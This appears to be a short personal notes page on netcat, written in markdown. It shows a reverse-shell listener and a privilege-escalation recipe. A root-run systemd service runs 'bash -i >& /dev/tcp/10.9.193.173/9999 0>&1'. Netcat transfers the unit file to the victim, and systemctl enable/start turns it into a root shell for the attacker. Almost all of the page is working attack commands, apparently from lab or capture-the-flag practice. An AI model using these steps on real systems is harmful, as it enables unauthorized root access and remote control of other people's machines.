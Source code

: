 # Netcat

## Example 1

Start netcat listening on e.g. port 1234

```sh
nc -lvnp 1234
```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

## Example 2

Create 0xfab1.service in /temp/

```txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker:  ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

```sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```


